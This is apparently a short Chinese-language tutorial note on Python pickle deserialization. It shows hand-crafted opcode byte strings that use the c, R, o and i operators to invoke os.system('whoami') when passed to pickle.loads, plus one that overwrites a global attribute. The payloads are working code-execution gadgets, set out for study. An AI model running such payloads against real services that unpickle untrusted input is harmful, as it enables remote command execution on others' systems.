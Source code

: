 ```python
import pickle
class name():
    def __init__(self,id):
        self.id = id

limbo = name('limbo')
print(limbo.id)

opcode = b'''c__main__
limbo
(S'id'
S'marin'
db.'''

pickle.loads(opcode)
print(limbo.id)
```

![image-20250421165441037](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250421165441037.png)

#### 函数执行

**​`c`​**​**操作符**

用来压入需要的模块，如os，sys等

**​`R`​**​**操作符**

```python
opcode = b'''cos      
system
(S'whoami'
tR.'''
opcode = b'''cos\nsystem\n(S'whoami'\ntR.'''
```

**​`o`​**​**操作符**

```python
opcode = b'''(cos
system
S'whoami'
o.'''
opcode = b'''(cos\nsystem\nS'whoami'\no.'''
```

**​`i`​**​**操作符**

```python
opcode = b'''(S'whoami'
ios
system
.'''
opcode = b'''(S'whoami'\nios\nsystem\n.'''
```

不过这些操作符我不是很清楚怎么返回值，可能只能写到文件中

‍

‍

‍

参考：

[pickle反序列化漏洞基础知识与绕过简析-先知社区](https://xz.aliyun.com/news/13498)

